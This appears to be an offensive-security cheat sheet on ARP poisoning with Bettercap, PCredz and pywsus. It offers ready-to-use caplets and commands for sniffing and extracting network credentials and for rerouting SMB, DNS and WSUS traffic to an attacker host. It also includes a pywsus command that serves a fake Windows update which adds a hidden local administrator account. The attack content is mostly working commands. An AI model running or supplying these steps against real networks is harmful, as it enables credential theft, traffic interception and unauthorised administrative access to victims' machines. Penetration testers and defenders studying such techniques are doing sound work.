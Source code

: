 # ARP Poisoning

## Tools: Bettercap, PCredz, pywsus 

Link: https://github.com/lgandx/PCredz and https://github.com/GoSecure/pywsus

## Use cases

# Dump Network Secrets

### 1) Create/modify config file

#### Bettercap config file

##### quick recon of the network
    net.probe on

##### set the ARP poisoning
    set arp.spoof.targets <target_IP>
    set arp.spoof.internal true
    set arp.spoof.fullduplex true

##### control logging and verbosity
    events.ignore endpoint
    events.ignore net.sniff.mdns

##### start the modules
    arp.spoof on
    net.sniff on

### 2) Run bettercap

    sudo ./bettercap --iface <interface> --caplet spoof.cap

### 3) Then sniff with Wireshark. When it is finish, save the trace in a .pcap file and extract the secrets:

    python3 ./Pcredz -f extract.pcap

# SMB Spoofing

### 1) Start the SMB server for capture or relay then start the poisoning attack.

##### quick recon of the network
    net.probe on

##### set the ARP spoofing
    set arp.spoof.targets $client_ip
    set arp.spoof.internal false
    set arp.spoof.fullduplex false

##### reroute traffic aimed at the original SMB server
    set any.proxy.iface $interface
    set any.proxy.protocol TCP
    set any.proxy.src_address $SMB_server_ip
    set any.proxy.src_port 445
    set any.proxy.dst_address $attacker_ip
    set any.proxy.dst_port 445

##### control logging and verbosity

    events.ignore endpoint
    events.ignore net.sniff.mdns

# start the modules

    any.proxy on
    arp.spoof on
    net.sniff on

### 2) Run bettercap OR responder

    sudo ./bettercap --iface <interface> --caplet spoof.cap

# DNS Spoofing

### 1) Start the DNS server (responder, dnschef, or bettercap) for DNS poisoning then start the ARP poisoning attack.

##### quick recon of the network
    net.probe on

##### set the ARP spoofing
   
    set arp.spoof.targets $client_ip
    set arp.spoof.internal false
    set arp.spoof.fullduplex false

##### reroute traffic aimed at the original DNS server
   
    set any.proxy.iface $interface
    set any.proxy.protocol UDP
    set any.proxy.src_address $DNS_server_ip
    set any.proxy.src_port 53
    set any.proxy.dst_address $attacker_ip
    set any.proxy.dst_port 53

##### control logging and verbosity

    events.ignore endpoint
    events.ignore net.sniff.mdns

##### start the modules

    any.proxy on
    arp.spoof on
    net.sniff on

### 2) Run bettercap OR responder OR DNSChef

        sudo ./bettercap --iface <interface> --caplet spoof.cap

# WSUS Spoofing

ARP poisoning for WSUS spoofing in a two-subnets layout (attacker + client in the same segment, legitimate WSUS server in another one). Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

### 1) The evil WSUS server needs to be started before doing ARP poisoning. The pywsus (Python) utility can be used for that matter.

    python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'

### 2) Once the WSUS server is up and running, the ARP poisoning attack can start.

##### quick recon of the network

    net.probe on

##### set the ARP spoofing
    
    set arp.spoof.targets $client_ip
    set arp.spoof.internal false
    set arp.spoof.fullduplex false

##### reroute traffic aimed at the WSUS server

    set any.proxy.iface $interface
    set any.proxy.protocol TCP
    set any.proxy.src_address $WSUS_server_ip
    set any.proxy.src_port 8530
    set any.proxy.dst_address $attacker_ip
    set any.proxy.dst_port 8530

##### control logging and verbosity

    events.ignore endpoint
    events.ignore net.sniff.mdns

##### start the modules
 
    any.proxy on
    arp.spoof on
    net.sniff on

### 3) The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

    bettercap --iface $interface --caplet wsus_spoofing.cap

### 4) The search for Windows updates can be manually triggered when having access to the target computer by going to 

    Settings > Update & Security > Windows Update > Check for updates.



    
